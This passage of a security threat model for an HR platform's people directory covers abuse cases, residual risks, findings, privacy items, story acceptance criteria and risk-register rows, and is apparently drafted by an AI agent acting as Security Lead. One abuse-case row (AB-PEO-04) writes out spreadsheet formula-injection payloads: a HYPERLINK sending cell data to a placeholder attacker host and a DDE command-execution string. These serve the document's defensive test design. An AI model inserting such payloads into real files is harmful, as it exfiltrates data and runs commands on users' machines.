| AB-PEO-02 | An HR manager with tenant scope makes their friend the manager of the Legal department head | AC-CO | PEO-05 | Allowed only with AAL2; audit before/after; head, old and new manager notified; appears in the Tenant Admin "scope changes" report |
| AB-PEO-03 | Import file sets A → manager B and B → manager A; another row sets a person as their own manager | AC-CO | PEO-06 | Rows rejected with AR/EN error codes; no partial cycle committed |
| AB-PEO-04 | Import row family name `=HYPERLINK("https://evil.example/?"&A1,"تحديث")` and `@SUM(1+1)*cmd\|' /C calc'!A0` | AC-CO / AC-MT | PEO-09 | Stored as text; every export and error report prefixes/escapes the cell; test opens output and asserts no formula |
| AB-PEO-05 | Display name contains U+202E to render "محمد" reversed / to mimic another employee | AC-CO | PEO-04 | Bidi overrides stripped at validation; picker shows employee number and department |
| AB-PEO-06 | Upsert row carries the victim's employee number and the attacker's e-mail | AC-CO / AC-MT | PEO-10, PEO-03 | Key-conflict error, or if e-mail is the match key: diff shows a contact change, confirm required, pending invitation revoked |
| AB-PEO-07 | Attacker with stolen SFTP credentials drops a file deactivating 80% of staff and reassigning managers (R2) | AC-EX | PEO-01, PEO-23 | Circuit breaker holds the run for admin approval; alert; nothing applied |
| AB-PEO-08 | TMS code path publishes `com.entlaqa.core_hr.employee.manager_changed` (Suite) | AC-DV | PEO-02 | CI ownership test fails; projector rejects source mismatch at runtime |
| AB-PEO-09 | External instructor calls the people-picker action with query "ا" and pages through results | AC-EI | PEO-14 | 403 (no directory permission); rate limit; security event |
| AB-PEO-10 | Coordinator without `read_sensitive` requests `?sort=date_of_birth` or `?gender=female` | AC-CO | PEO-15 | 400 (filter/sort not allowed); no ordering side channel |
| AB-PEO-11 | Learner submits own-profile update with `managerPersonId`, `departmentId`, `status` | AC-LR | PEO-08 | 400 (strict schema); nothing written |
| AB-PEO-12 | Tenant Admin tries to set `tenants.mode = 'suite'` or insert a `core_hr` licence through any action | AC-TA | PEO-12 | Permission denied at DB (no grant) and no action exists; attempt audited |
| AB-PEO-13 | Admin tries to re-point the attacker's membership to the CEO's person record | AC-TA / AC-MT | PEO-27 | `permission denied` (only `status` is updatable) |
| AB-PEO-14 | Terminated employee in a standalone tenant keeps signing in for weeks | AC-LR | PEO-29 | `end_on` job suspends membership; sessions revoked; report lists stragglers |
| AB-PEO-15 | Insider with a DB dump tries to enumerate 10-digit national IDs against blind-index hashes | AC-PF / AC-EX | PEO-16, PEO-19 | Infeasible without the KMS-held index key; hashes differ per tenant |
| AB-PEO-16 | Caller e-mails support "I am employee X, send me my training and HR data" | AC-AN | PEO-30 | Support redirects to the tenant's privacy contact; no data released by ENTLAQA |

---

## 8. Residual risks and owners

| ID | Residual risk | Why it remains | Owner | Treatment |
|---|---|---|---|---|
| RR-PEO-01 | Authorized HR users with tenant-wide placement rights can legitimately rewire managers | Business need | PO (accepts) / Tenant Admin | Detective controls: AAL2, notifications, scope-change report, audit (PEO-05) |
| RR-PEO-02 | The directory trusts the configured source of truth; a compromised customer HRIS or Core HR propagates bad data | Source-of-truth design | Tenant (shared responsibility) / Security Lead | Thresholds, dry runs, audit, rollback; documented in the customer security guide |
| RR-PEO-03 | Module boundaries inside one runtime and one DB role set are enforced by code and CI, not by the database | Modular monolith (ADR 0001) | Tech Lead | dependency-cruiser + ownership tests; consider per-module DB roles when Core HR starts |
| RR-PEO-04 | Name confusion between similarly named people cannot be fully prevented | Arabic naming patterns | Product Designer / PO | Disambiguators in every picker and approval card |
| RR-PEO-05 | Operators holding the blind-index key can test national IDs for equality | Blind-index design | Security Lead | KMS access logging, separate key per purpose, per-tenant derivation |
| RR-PEO-06 | R1 has no DSR workflow (FR-AUD-04 is R2); requests are handled manually | Release cut | PO + Legal | Runbook before the first paying tenant; R2 workflow |
| RR-PEO-07 | HR master data in Frankfurt for regional SaaS tenants | Hosting decision (inherits RR-08) | PO + Legal | R-05, R-07, R-08 |

---

## 9. Findings for the Tech Lead

Proposed changes; none is decided by this document.

| ID | Finding | Recommendation | Affects |
|---|---|---|---|
| F-PEO-01 | `platform.persons` grants every `authenticated` member `select/insert/update` on all rows and all columns (`using (true)`); field, scope and person-type rules exist only in application code | M2 expand migration: column-level `UPDATE` grants (no `tenant_id`, `id`, `source`, `source_ref`, `created_*`); `person_sensitive` without permissive read for `authenticated` — access only via a reviewed `private` function or a policy that checks a `read_sensitive` grant; evaluate a restrictive policy hiding persons from non-employee members (cost vs. benefit) | Migrations, ADR 0002/0003 |
| F-PEO-02 | FR-IAM-02 restricts **employment category**, but the data model stores it in `person_employment`; TM-0001 A-02 classifies **nationality** as C4, but the data model keeps `nationality_code`/`is_national` in `persons` | Move `employment_category` to `person_sensitive` (or project it out everywhere); decide nationality's class with Legal (needed for nationalization reporting, R2) | Data model §2.3 |
| F-PEO-03 | ADR 0010 §5 defines one national-ID blind-index key; a global key yields identical hashes for the same person in different tenants (cross-tenant linkage from a dump) | Derive a per-tenant index key (HKDF of the index key with `tenant_id`); keep uniqueness `(tenant_id, national_id_hash)` | ADR 0010 §5, SCS-13 |
| F-PEO-04 | No effective-dated placement/manager history; scopes on a past date cannot be reconstructed except by scanning audit diffs | Append-only `platform.person_employment_history` ([ao]) written by the directory service, or a documented audit query with an index on `(tenant_id, entity_type, entity_id)` | Data model, EP-M2-AUD |
| F-PEO-05 | No R1 requirement needs national ID/Iqama (Qiwa disclosure R2, instructor documents FR-INS-10 R2, HRDF R3) | Do not collect national IDs in R1 (no import mapping, no UI); add with the first feature that needs them, after Legal confirms the basis | PO decision, BRD scope |
| F-PEO-06 | BRD FR-INT-01 says "R2 (CSV/SFTP R1)", the feature list says INT-01 = R2 and the R1 cut omits it | PO to confirm. This model assumes R1 = manual CSV/XLSX import (FR-IAM-04) only; automated SFTP/HRIS sync is R2 | BRD / feature list |
| F-PEO-07 | Security README §4.1 planned TM-0002 to cover EP-M2-PEO and TM-0004 for M4 epics; this file is TM-0004 for EP-M2-PEO | Update the README index when the M2 models are merged | `docs/security/README.md` |
| F-PEO-08 | R1 default approval chain (line manager → training manager) has no SoD rule; FR-IAM-09 is R2 | Approver ≠ requester ≠ subject in R1 chain resolution, with fallback to the next approver | ADR 0003, platform-workflow |
| F-PEO-09 | `reports_tree` needs `subjectManagerChain`; computing it recursively per request is costly and loop-prone | Maintain `manager_path` (ltree or uuid[]) on write with cycle check and depth cap; resolvers read it | Data model, platform-rbac resolvers |
| F-PEO-10 | Suite mode can be set today (`tenants.mode`) although no Core HR exists; the projector path is untested | Console refuses `suite` until a Core HR licence and module exist for the deployment; until then directory behaviour = standalone | ADR 0001, console |

---

## 10. Privacy (items flagged for legal validation)

Regulatory facts below come from BRD §12.2 and Appendix E (validated research as of Sep 2026, still subject to Legal). **Every item needs counsel's confirmation; no statutory figures are introduced here.**

| ID | Item | Proposed product position | Legal validation |
|---|---|---|---|
| PV-01 | Roles: tenant = controller of directory data; ENTLAQA = processor (DPA, sub-processor list, BRD §12.2); same in suite mode | Directory screens show the tenant's privacy contact; ENTLAQA staff act only on tenant instruction | Required — role per jurisdiction |
| PV-02 | Lawful basis for employee directory data (employment relationship / legal obligation for regulatory reporting) rather than consent; consent only for FR-AUD-05 purposes | No consent prompt for directory data; purpose list per field in the classification registry | Required — Saudi PDPL, UAE PDPL (Decree-Law 45/2021), Egypt PDPL (Law 151/2020) |
| PV-03 | Whether nationality, gender, date of birth, national ID and photos are "sensitive" under each law | Treat as C4 until Legal decides (F-PEO-02) | Required |
| PV-04 | Minimization: national ID not collected in R1 (F-PEO-05); photo optional; custom fields carry a declared purpose/classification | As stated | Required for national ID basis when introduced |
| PV-05 | Retention after termination: training records ≥ 10 years by default (DR-5) vs contact data, photo and mobile of leavers | Pseudonymize non-essential fields of leavers after a tenant-configurable period; keep name + employee number with training records | Required — periods per jurisdiction |
| PV-06 | Data subject rights in R1 (FR-AUD-04 is R2): access, correction, erasure/anonymization, portability; response periods differ by law | Manual runbook + platform tooling; corrections of HR-sourced fields made at the source system (UI shows "managed by HRIS / Core HR") | Required — response periods, exemptions for retained training records |
| PV-07 | Cross-border transfer of HR master data to the regional SaaS (Frankfurt) — Saudi PDPL transfer safeguards (SDAIA SCCs + transfer risk assessment), Egypt PDPL grace period ending ~2 Nov 2026, UAE regimes | Per-tenant `data_residency` recorded and shown; government tenants only in-country (FR-DEP-03) | Required (R-05, R-07, R-08) |
| PV-08 | Impact assessment for directory + manager-based visibility and nationality reporting | Prepare a DPIA draft with the M2 stories | Required — whether mandatory per law |
| PV-09 | Transparency to employees (notice is the tenant's duty) | Provide AR/EN notice text templates and a profile page "what we hold about you" | Recommended review |

---

## 11. Requirements for the stories

Security/privacy acceptance criteria to copy into the stories (Plan Appendix C *Security notes*). Each story also lists the threat IDs it closes.

### 11.1 STE-02 — Shared people & organization directory

| ID | Acceptance criterion | Threats |
|---|---|---|
| SR-STE02-01 | Directory tables (`persons`, `person_employment`, `person_sensitive`, org tables) have `tenant_id`, composite FKs (incl. `manager_person_id`, `head_person_id`), ENABLE + FORCE RLS, RESTRICTIVE `tenant_isolation`, column-level grants, and pgTAP isolation + no-claim tests (CI gate 5) | T-14, T-32, PEO-08, PEO-19 |
| SR-STE02-02 | Permissions registered: `platform.person.read`, `.manage_contact`, `.manage_placement` (high, AAL2), `.read_sensitive` (high, AAL2), `.export` (high, AAL2), `platform.org.manage` (high, AAL2); each action has positive + 403/404/AAL2 negative tests | PEO-05, PEO-07, PEO-15, PEO-17 |
| SR-STE02-03 | Manager/department changes: only for targets inside the actor's scope; never self as manager; no self-manager, no cycles, same-tenant active employee manager; audit before/after; notifications to person, old and new manager | PEO-05, PEO-06 |
| SR-STE02-04 | Org-tree moves show affected role assignments before confirmation; path maintained by trigger; cycles rejected | PEO-07 |
| SR-STE02-05 | People search/pickers: `scopeFilter`; minimal DTO with disambiguators and external badge; minimum query length, page cap, rate limit; non-employee person types denied | PEO-04, PEO-14 |
| SR-STE02-06 | Field projection registry drives DTOs, filters, sorts, exports, audiences and error reports; restricted fields absent without `read_sensitive`; tests per role | PEO-15, T-35 |
| SR-STE02-07 | Name fields validated with `safeText` (NFC, bidi overrides stripped); search and duplicate detection on `normalize_ar()`; AR/EN corpus tests incl. "محمد/محمّد", "عبد الله/عبدالله" (NFR-L10N-05) | PEO-04 |
| SR-STE02-08 | Contact change on a person with a pending invitation revokes it; contact changes on active members notify the previous address; directory e-mail never changes the login e-mail | PEO-03, T-06 |
| SR-STE02-09 | Deactivation suspends memberships and revokes sessions in one operation; `end_on` job; "active logins with end date passed" report | PEO-29, T-57 |
| SR-STE02-10 | `PeopleDirectory` interface in `packages/contracts` returns DTOs; dependency-cruiser rule forbids `modules/*` from importing directory tables; events carry IDs only with PII classification | PEO-20, PEO-26 |
| SR-STE02-11 | National ID: not collected in R1 unless the PO approves F-PEO-05; if approved — envelope encryption with AAD, per-tenant blind index, masked display, audited reveal, excluded from exports by default | PEO-16 |
| SR-STE02-12 | Every directory change audited with actor type, initiator, bulk job/connection id; placement history available (F-PEO-04) | PEO-13 |
| SR-STE02-13 | Uniqueness conflicts reveal details only to users whose scope covers the conflicting record | PEO-18 |
| SR-STE02-14 | No person merge or membership re-link in R1; pgTAP asserts `tenant_memberships.person_id` is not updatable by `authenticated` | PEO-27 |
| SR-STE02-15 | Logs for directory actions and jobs contain IDs and error codes only (log-redaction test) | T-37, PEO-20 |

### 11.2 STE-01 — Suite mode and standalone mode per tenant

| ID | Acceptance criterion | Threats |
|---|---|---|
| SR-STE01-01 | `tenants.mode` and `tenant_module_licenses` writable only through the audited platform-console path; pgTAP proves `authenticated` cannot insert/update them | PEO-12 |
| SR-STE01-02 | Field-ownership matrix per mode (data model §4) enforced in the directory service; writes by a non-owner return 409 and a security event; tests per mode × writer (UI, import, HRIS, projector) | PEO-11 |
| SR-STE01-03 | Mode switch (console): disables import/HRIS jobs in the same operation, records reason + ticket, produces a reconciliation report, and is refused for `suite` while no Core HR module/licence exists | PEO-11, F-PEO-10 |
| SR-STE01-04 | Permissions of unlicensed modules are removed when grants are computed; navigation and APIs of unlicensed modules return 404 | PEO-12, ADR 0001 |
| SR-STE01-05 | (Suite) Projector accepts `com.entlaqa.core_hr.*` only from the registered owner, only for suite-mode tenants, idempotently (inbox), with `source = core_hr`; CI ownership test | PEO-02, T-24 |
| SR-STE01-06 | (R2 standalone sync) Connection credentials in `tenant_secrets`, worker-only; host-key/TLS validation; tenant from connection; first-run dry run; deactivation/manager-change thresholds with admin approval; no deactivation of Tenant Admins/break-glass accounts | PEO-01, PEO-23 |
| SR-STE01-07 | Profile pages show the data source ("managed by HRIS / Core HR") and route corrections to it | PV-06, PEO-11 |

### 11.3 Handed to sibling M2 epics

| ID | Epic / feature | Acceptance criterion | Threats |
|---|---|---|---|
| SR-X-01 | EP-M2-IAM / IAM-04 importer | Explicit match key; key conflicts are row errors; dry-run diff by category; reactivation only by explicit option; no deactivation by absence; batch rollback; formula neutralization in error reports; UTF-8 enforcement; role columns cannot grant high-risk roles; source file purged after the job (≤ 7 days proposed) | PEO-09, PEO-10, PEO-21, PEO-23, PEO-28 |
| SR-X-02 | EP-M2-IAM / IAM-02 | Restricted fields in `person_sensitive` incl. employment category (F-PEO-02) | PEO-15 |
| SR-X-03 | EP-M2-SHELL (TM-0006) / approvals | R1 chain never assigns a step to the requester or subject | PEO-06, F-PEO-08 |
| SR-X-04 | EP-M2-AUD (TM-0005) | Directory audit events with integration actor type; C4 values redacted/encrypted in diffs (F-08) | PEO-13, PEO-30 |

---

## 12. ASVS 5.0 references

Chapters as in the [ASVS L2 mapping](../asvs-l2-mapping.md).

| ASVS | Where it applies in this epic | Threats |
|---|---|---|
| V1.2 Injection prevention (CSV/XLSX formula) | Exports and import error reports | PEO-09 |
| V1.3 Sanitization / V1.5 Safe deserialization | Name normalization; XLSX parser without entity expansion | PEO-04, PEO-09 |
| V2.2 Input validation / V2.3 Business logic | Strict schemas; hierarchy invariants; import key rules; thresholds | PEO-06, PEO-08, PEO-10, PEO-23 |
| V2.4 Anti-automation | Search, pickers, exports, import start | PEO-14, PEO-17 |
| V5.2–V5.4 File handling | Import uploads, error reports, exports | PEO-09, PEO-21 |
| V8.1–V8.4 Authorization | Permissions, scopes from server-loaded hierarchy, field-level projection, licence filtering | PEO-05, PEO-07, PEO-12, PEO-14, PEO-15, PEO-25, PEO-28 |
| V9.1 / V11.3 / V11.4 Tokens and cryptography | Envelope encryption of national IDs; keyed blind index | PEO-16 |
| V12.3 Service-to-service TLS | HRIS/SFTP connections (R2) | PEO-01 |
| V13.2 / V13.3 Backend communication, secrets | Connector credentials worker-only | PEO-01 |
| V14.1–V14.3 Data protection | Classification, minimization, retention, residency, no C4 client-side | PEO-15, PEO-16, PEO-21, PEO-22 |
| V15.2 Architecture and dependencies | Module boundary, event ownership | PEO-02, PEO-26 |
| V16.2–V16.4 Logging | Directory/import/sync audit, security events, no PII in logs | PEO-13, PEO-20 |

---

## 13. Proposed risk-register rows (candidates — not yet in the register)

Scales and bands as in the risk register §1. IDs are provisional (`PR-PEO-n`); the next free `R-nn` numbers are assigned when the register is updated, because the sibling M2 models also propose rows (TM-0005 uses R-34…R-37). For PO/Security Lead decision at the next register review.

| ID | Risk description | Category | L | I | Score | Target | Owner | Mitigation (planned) | Status | Review date |
|---|---|---|---|---|---|---|---|---|---|---|
| PR-PEO-1 | **Manager-hierarchy or org-tree manipulation widens data scopes** through edits, imports or sync (PEO-05…07, PEO-25) | Security — authorization | 3 | 4 | 12 | 4 | Tech Lead | Placement permission with AAL2; in-scope-only edits; hierarchy invariants; notifications; scope-change report; audit + placement history | Open | 2026-10-31 |
| PR-PEO-2 | **Over-collection and over-retention of HR master data** (national IDs without an R1 purpose, import artefacts, leavers' contact data) (PEO-16, PEO-21, PV-04/05) | Privacy | 3 | 4 | 12 | 4 | Security Lead + PO | F-PEO-05; artefact purge; leaver pseudonymization; classification registry | Open | 2026-10-31 |
| PR-PEO-3 | **HR source impersonation or compromise** (SFTP/HRIS credentials, forged Core HR events) causing mass directory changes or deactivations (PEO-01, PEO-02, PEO-23) | Security — integration | 2 | 4 | 8 | 3 | Tech Lead | Worker-only credentials, host-key/TLS/HMAC, tenant from connection, event ownership CI test, thresholds + approval | Open | 2027-01-31 |
| PR-PEO-4 | **Directory enumeration and bulk exfiltration** by low-trust members or over-privileged staff via search, pickers and exports (PEO-14, PEO-15, PEO-17) | Privacy | 4 | 3 | 12 | 4 | Tech Lead | `scopeFilter`, external person types denied, minimal DTOs, rate limits, export permission + audit + alerts; F-PEO-01 | Open | 2026-10-31 |
| PR-PEO-5 | **Data-ownership conflict between suite and standalone writers** or during mode switch (PEO-11, PEO-12) | Integrity | 3 | 3 | 9 | 3 | Tech Lead | Field-ownership matrix, 409 on non-owner writes, console-only mode switch with job shutdown and reconciliation | Open | 2026-11-30 |
| PR-PEO-6 | **Leavers retain access** in standalone tenants because terminations arrive late (PEO-29) | Security — access lifecycle | 4 | 3 | 12 | 4 | Tech Lead | Deactivation cascade, `end_on` job, straggler report; suite: STE-03 | Open | 2026-11-30 |
| PR-PEO-7 | **DSR handling gap in R1** (FR-AUD-04 is R2) and erasure across a shared directory used by several modules (PEO-30, PV-06) | Compliance — privacy | 3 | 4 | 12 | 4 | PO + Legal counsel | Manual runbook before first paying tenant; anonymization event for all modules; crypto-shredding (F-08) | Open | 2026-11-30 |

---

## 14. Maintenance and sign-off

- Update this model when: F-PEO-01…10 are decided; FR-INT-01 timing is confirmed (F-PEO-06); the Core HR module starts (suite projector becomes real); national IDs are introduced; any directory-related incident or pen-test finding.
- A threat becomes *Verified* only when its verification exists and passes in CI or a review record exists in `docs/security/reviews/` (security README §4.2).

| Role | Name | Date | Result |
|---|---|---|---|
| Author | Security Lead (Claude agent) | 3 Oct 2026 | Draft v0.1 |
| Tech Lead review | — | — | Pending |
| Product Owner approval | — | — | Pending (PR merge) |
